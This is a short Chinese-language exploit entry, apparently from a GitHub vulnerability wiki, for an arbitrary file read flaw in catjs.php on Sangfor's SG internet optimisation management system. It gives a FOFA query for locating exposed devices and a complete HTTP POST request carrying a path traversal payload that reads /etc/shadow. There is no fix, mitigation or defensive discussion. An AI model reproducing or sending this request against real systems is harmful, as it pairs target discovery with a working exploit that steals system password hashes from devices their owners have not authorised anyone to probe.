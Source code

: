 ## 深信服SG上网优化管理系统 catjs.php 任意文件读取漏洞

## fofa
```
title=="SANGFOR上网优化管理"
```


```
POST /php/catjs.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/x-www-form-urlencoded
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Content-Length: 32

["../../../../../../etc/shadow"]
```

![9d1238a7ccbf56f3d36759ead05f1bcf](https://github.com/wy876/wiki/assets/139549762/42238697-6a27-4dbc-b274-db8f83ce6a49)

